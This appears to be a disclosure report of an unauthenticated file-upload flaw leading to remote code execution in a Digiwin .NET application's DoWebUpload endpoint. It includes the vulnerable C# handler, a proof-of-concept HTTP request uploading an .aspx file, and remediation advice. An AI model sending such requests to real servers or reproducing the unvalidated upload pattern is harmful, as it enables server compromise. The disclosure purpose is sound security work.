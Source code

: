 ![image-20250307232357603](./assets/image-20250307232357603.png)

![image-20250307232344294](./assets/image-20250307232344294.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

## Vendor Homepage

https://www.digiwin.com/

## Summary

A critical vulnerability has been identified in the `.NET` web application, specifically in the file upload functionality of the `DoWebUpload` method. This vulnerability allows unauthenticated users to upload arbitrary files, potentially leading to remote code execution and complete server compromise.

## Vulnerability Details

### Affected Endpoint:

`/Api/FileUploadApi.ashx?method=DoWebUpload`

### Affected Function

The vulnerability exists in the following code snippet:

```csharp
  [RequestCheck(CheckLogin = false)]
  public void DoWebUpload()
  {
    string filename = this.bImpl.Request("filename").Replace("+", "").Replace(" ", "").Replace("%", "").Replace(" ", "");
    string str1 = this.bImpl.Request("folder", "file");
    string str2 = this.bImpl.Request("uFolder");
    bool boolean = this.bImpl.Request("uname").ToBoolean();
    int int32 = this.bImpl.Request("existDelay").ToInt32();
    long int64_1 = this.bImpl.Request("position").ToInt64();
    long int64_2 = this.bImpl.Request("totsize", this.bImpl.Request("filesize")).ToInt64();
    string str3 = this.bImpl.Request("idValue");
    string specNo = this.bImpl.Request("speciesno");
    string str4 = this.bImpl.Request("stepCode");
    string str5 = this.bImpl.Request("fileNo");
    if (string.IsNullOrEmpty(specNo) || string.op_Equality(specNo.ToLower(), "false"))
    {
      string attcBmpSpec = new DataImpl().GetAttcBmpSpec(this.ModuleId);
      specNo = string.IsNullOrEmpty(attcBmpSpec) ? "01" : attcBmpSpec;
    }
    if (!string.IsNullOrEmpty(str3) && str3.StartsWith("{") && str3.EndsWith("}"))
    {
      this.response.msg = "请选择一条记录进行上传！";
    }
    else
    {
      Hashtable hashtable = new Hashtable();
      hashtable.Add((object) "username", (object) this.user.UserName);
      hashtable.Add((object) "userid", (object) this.user.UserId);
      hashtable.Add((object) "key", (object) this.bImpl.Request("key"));
      hashtable.Add((object) "filename", (object) filename);
      hashtable.Add((object) "filesize", (object) int64_2);
      hashtable.Add((object) "specNo", (object) specNo);
      hashtable.Add((object) "fileNo", (object) str5);
      hashtable.Add((object) "stepCode", (object) str4);
      hashtable.Add((object) "value", (object) str3);
      hashtable.Add((object) "menucode", (object) this.ModuleId);
      Hashtable fInfos = hashtable;
      bool flag = !string.IsNullOrEmpty(this.ModuleId);
      string fileVPath = flag ? string.Format(Lskj.WebErp.Core.Util.WebConfigUtil.PubModelAccFilePath, (object) this.ModuleId, (object) str3, (object) str5) : (str1.StartsWith("/") ? str1 : string.Format(Lskj.Web.Core.Util.WebConfigUtil.PubModelFilePath, (object) str1, (object) this.ModuleId, (object) (DateTime.Now.ToString("yyyyMMdd") + (string.IsNullOrEmpty(str2) ? "" : "/" + str2))));
      if (flag && (((NameObjectCollectionBase) this.Request.Files).Count > 0 || int64_1 == 0L && int64_2 > 0L))
      {
        this.CheckAttcOper(1, filename, int64_2, specNo);
        if (!this.response.success)
          return;
      }
      if (((NameObjectCollectionBase) this.Request.Files).Count > 0)
      {
        ArrayList arrayList = new ArrayList();
        for (int index = 0; index < ((NameObjectCollectionBase) this.Request.Files).Count; ++index)
        {
          HttpPostedFile file = this.Request.Files[index];
          BaseResponse baseResponse = FileUtil.SaveFile(file, fileVPath, boolean ? (string) null : file.FileName, "");
          if (baseResponse.success)
          {
            fInfos[(object) "fPath"] = (object) ((FileUtil.PathInfo) baseResponse.data).RelativePath;
            if (flag)
              baseResponse = this.moduleImpl.AddAttcFileInfo(fInfos);
            if (baseResponse.success)
              arrayList.Add(baseResponse.data);
            else
              FileUtil.DeleteFile(fileVPath, filename);
          }
        }
        this.response.success = true;
        this.response.data = arrayList.Count > 1 ? (object) arrayList : arrayList[0];
      }
      else
      {
        string end = ((TextReader) new StreamReader(this.Request.InputStream, this.Request.ContentEncoding)).ReadToEnd();
        try
        {
          if (!flag)
            ;
          byte[] numArray = Convert.FromBase64String(end);
          if (numArray.Length != 0)
          {
            this.response = FileUtil.SaveFile(numArray, int64_1, int64_2, fileVPath, filename, this.AppDomain, !flag);
            if (this.response.data is FileUtil.PathInfo data)
              data.UserName = this.user.UserName;
          }
          if (flag && this.response.success && int64_1 + (long) numArray.Length >= int64_2)
          {
            fInfos[(object) "fPath"] = (object) ((FileUtil.PathInfo) this.response.data).RelativePath;
            fInfos[(object) "totTime"] = (object) FileUploadApi.GetVideoInfo(((FileUtil.PathInfo) this.response.data).SavePath);
            this.response = this.moduleImpl.AddAttcFileInfo(fInfos);
            if (!this.response.success)
            {
              FileUtil.DeleteFile(fileVPath, filename);
            }
            else
            {
              string str6 = HttpContext.Current.Server.MapPath("/DocHtml/" + new Regex(string.Format("{0}$", (object) Enumerable.Last<string>((IEnumerable<string>) filename.Split(new char[1]
              {
                '.'
              }))), (RegexOptions) 8).Replace(filename.Replace("#", ""), "").Replace(filename.Replace(" ", ""), "") + ".html");
              if (File.Exists(str6))
                File.Delete(str6);
            }
          }
          if (!this.response.success || int32 <= 0 || int64_1 + (long) numArray.Length < int64_2)
            return;
          DateTimeUtil.SetTimeOut((TimerCallback) (o => FileUtil.DeleteFile(fileVPath, filename)), int32 * 1000);
        }
        catch (Exception ex)
        {
          throw ex;
        }
      }
    }
  }
```

### Description

The `DoWebUpload` method is marked with `[RequestCheck(CheckLogin = false)]`, indicating that it does not require user authentication. This allows any user, including unauthenticated users, to access this method. The method processes file uploads without proper validation or sanitization of the uploaded file content and type. This can be exploited to upload malicious files (e.g., `.aspx` files containing server-side scripts), which can then be executed by the server, leading to remote code execution.

### Proof of Concept (PoC)

The following HTTP request demonstrates how an attacker can exploit this vulnerability to upload a malicious `.aspx` file:

```http
POST /Api/FileUploadApi.ashx?method=DoWebUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact

Successful exploitation of this vulnerability allows an attacker to:

1. Upload arbitrary files to the server.
2. Execute malicious code on the server, leading to full control over the server.
3. Access sensitive data and potentially compromise the entire application and its users.

## Recommendations

To mitigate this vulnerability, the following actions are recommended:

1. **Require Authentication**: Ensure that the `DoWebUpload` method requires user authentication by setting `[RequestCheck(CheckLogin = true)]`.
   
2. **Input Validation**: Implement strict input validation to verify the file type, size, and content before processing the upload. Only allow specific file types and reject any potentially dangerous files.

3. **File Storage**: Store uploaded files in a directory that is not accessible for execution by the web server.

4. **Security Best Practices**: Follow secure coding practices and regularly review the application code for potential vulnerabilities.

5. **Security Patches**: Keep the .NET framework and all third-party libraries up to date with the latest security patches.

By implementing these recommendations, the risk of remote code execution and unauthorized access can be significantly reduced.

### Conclusion:

This critical vulnerability should be addressed immediately to prevent potential exploitation. By implementing the recommended security measures, the risk of unauthorized file uploads and remote code execution can be significantly reduced.

### References:

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [Microsoft Secure Coding Guidelines](https://docs.microsoft.com/en-us/dotnet/standard/security/secure-coding-guidelines)